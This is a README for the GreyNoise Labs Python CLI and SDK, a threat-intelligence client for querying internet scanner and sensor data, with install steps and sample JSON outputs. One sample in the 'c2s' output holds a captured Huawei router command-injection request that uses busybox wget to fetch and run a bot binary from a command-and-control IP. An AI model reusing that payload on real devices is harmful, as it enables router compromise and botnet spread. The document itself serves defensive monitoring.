 ==========================================
Python GreyNoise Labs GraphQL Client & SDK
==========================================

.. image:: https://img.shields.io/badge/License-MIT-yellow.svg
    :target: https://opensource.org/licenses/MIT

This package provides a CLI and SDK to the `GreyNoise Labs API`_ service.

.. _GreyNoise Labs API: https://api.labs.greynoise.io/

The GreyNoise Labs API provides access to the GreyNoise sensor datasets,
including the raw sensor data, contextual metadata, and rapid prototyping utilities from the GreyNoise Labs team.

You can read more about the team and their work at `GreyNoise Labs`_

.. _GreyNoise Labs: https://www.labs.greynoise.io

Documentation
=============
Documentation is available here: `Documentation`_

.. _Documentation: https://api.labs.greynoise.io/1/docs

CLI Install
===========
1. Run ``python3 -m pip install greynoiselabs``
2. Run ``greynoiselabs init`` to authenticate with Auth0 and save credentials for future use.
3. (Optional) It is recommended to install `jq` to make the CLI output more readable. 
   You can install it with ``brew install jq`` on macOS or ``apt-get install jq`` on Ubuntu.

..  code-block:: bash

    You are not authenticated, would you like to do this now? [y/N]: y
    Device code successful
    1. Please browse to:  https://greynoise2.auth0.com/activate?user_code=ABCD-EFGH
    2. Verify the code matches:  ABCD-EFGH
    Please click the link above and follow the instructions...
    Please click the link above and follow the instructions...
    Please click the link above and follow the instructions...
    Token saved to /Users/user/Library/Application Support/greynoiselabs/0.1.19/token.json.
    Authentication successful
    Aborted.


CLI Quick Start
===============
1. To show usage just run ``greynoiselabs`` and you should see this output.

.. image:: https://github-production-user-asset-6210df.s3.amazonaws.com/30487781/256922968-bbed72e3-c973-4398-86d8-c4383ffa0283.png

1. Run ``greynoiselabs knocks --help`` to show command specific help like below.

.. image:: https://github-production-user-asset-6210df.s3.amazonaws.com/30487781/256923019-432213b0-6a10-4283-bc8e-2365368c977a.png

1. Run ``greynoiselabs c2s | jq``

..  code-block:: json

    {
      "source_ip": "1.2.3.4",
      "hits": 2024,
      "pervasiveness": 10,
      "c2_ips": [
        "5.6.7.8"
      ],
      "c2_domains": [],
      "payload": "POST /ctrlt/DeviceUpgrade_1 HTTP/1.1\r\nContent-Length: 430\r\nConnection: keep-alive\r\nAccept: */*\r\nAuthorization: Digest username=\"dslf-config\", realm=\"HuaweiHomeGateway\", nonce=\"88645cefb1f9ede0e336e3569d75ee30\", uri=\"/ctrlt/DeviceUpgrade_1\", response=\"3612f843a42db38f48f59d2a3597e19c\", algorithm=\"MD5\", qop=\"auth\", nc=00000001, cnonce=\"248d1a2560100669\"\r\n\r\n<?xml version=\"1.0\" ?><s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\"><s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\"><NewStatusURL>$(/bin/busybox wget -g 5.6.7.8 -l /tmp/negro -r /.oKA31/bok.mips; /bin/busybox chmod 777 /tmp/negro; /tmp/negro hw.selfrep)</NewStatusURL><NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL></u:Upgrade></s:Body></s:Envelope>\r\n\r\n"
    }

4. Run ``greynoiselabs knocks | jq``

..  code-block:: json

    {
      "source_ip": "36.70.32.117",
      "headers": "{\"Content-Type\":[\"text/html\"],\"Expires\":[\"0\"],\"Server\":[\"uc-httpd 1.0.0\"]}",
      "apps": "[{\"app_name\":\"Apache HTTP Server\",\"version\":\"\"}]",
      "emails": [],
      "favicon_mmh3_128": "Sgqu+Vngs9hrQOzD8luitA==",
      "favicon_mmh3_32": -533084183,
      "ips": [
        "10.2.4.88",
        "10.2.2.88"
      ],
      "knock_port": 80,
      "jarm": "00000000000000000000000000000000000000000000000000000000000000",
      "last_seen": "2023-07-21T11:00:06Z",
      "last_crawled": "2023-07-22T00:14:27Z",
      "links": [],
      "title": "NETSurveillance WEB",
      "tor_exit": false
    }

5. Run ``greynoiselabs popular-ips | jq``

..  code-block:: json

    {
      "ip": "143.244.50.173",
      "request_count": 916,
      "users_count": 95,
      "last_requested": "2023-07-27T23:55:17Z",
      "noise": true,
      "last_seen": "2023-07-27T23:59:11Z"
    }

6. Run ``greynoiselabs noise-rank | jq``

..  code-block:: json

    {
      "ip": "167.94.138.35",
      "noise_score": 89,
      "country_pervasiveness": "very high",
      "payload_diversity": "med",
      "port_diversity": "very high",
      "request_rate": "high",
      "sensor_pervasiveness": "very high"
    }

7. Run ``greynoiselabs gengnql "Show malicious results that are targeting ukraine from russia"``
Results will differ for `gengnql` on subsequent runs as this is using an GPT prompt.

..  code-block:: bash

    classification:malicious AND metadata.country:Russia AND destination_country:Ukraine
    metadata.country:Russia AND destination_country:Ukraine AND classification:malicious
    metadata.country_code:RU AND destination_country_code:UA AND classification:malicious
    classification:malicious AND metadata.country_code:RU AND destination_country_code:UA
    destination_country:Ukraine AND metadata.country:Russia AND classification:malicious

CLI Advanced Usage
==================
Show the most popular IPs that are searched at GreyNoise but not observed by our sensors
1. ``greynoiselabs popular-ips | jq '. | select(.noise == false)' | less``

Group the ip's hitting GreyNoise sensors by their HTTP page title
2. ``greynoiselabs knocks | jq -s 'group_by(.title) | map({title: .[0].title, agg: map(.source_ip) })'``

SDK Quick Start
===============
**Install the library**:

``python3 -m pip install greynoiselabs`` or ``make install`` when in the root directory of the repository.

Example SDK Code

You can authenticate to the Labs API and obtain a copy of your token there 
or with the CLI after running ``greynoiselabs init``

..  code-block:: python

    import os
    import asyncio
    from greynoiselabs.client import Client

    client = Client("https://api.labs.greynoise.io/1/query",
                    {"Authorization": f"Bearer {os.environ['AUTH_TOKEN']}"})

    response = asyncio.run(client.top_knocks(ip="221.144.229.187"))
    print(response)
